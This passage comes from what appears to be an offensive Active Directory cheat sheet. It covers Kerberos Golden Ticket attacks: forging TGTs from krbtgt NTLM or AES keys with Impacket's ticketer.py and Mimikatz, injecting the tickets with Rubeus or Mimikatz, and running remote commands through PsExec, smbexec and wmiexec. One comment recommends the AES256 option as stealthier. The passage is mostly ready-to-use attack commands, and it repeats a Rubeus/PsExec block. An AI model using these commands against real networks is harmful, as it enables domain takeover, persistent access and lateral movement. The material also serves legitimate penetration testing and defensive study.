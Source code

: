```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Executing a remote command with PsExec:

```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Golden Ticket

Impacket:

```python
# To generate the TGT with NTLM
ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Mimikatz:

```python
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Rubeus:

```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Executing a remote command with PsExec:
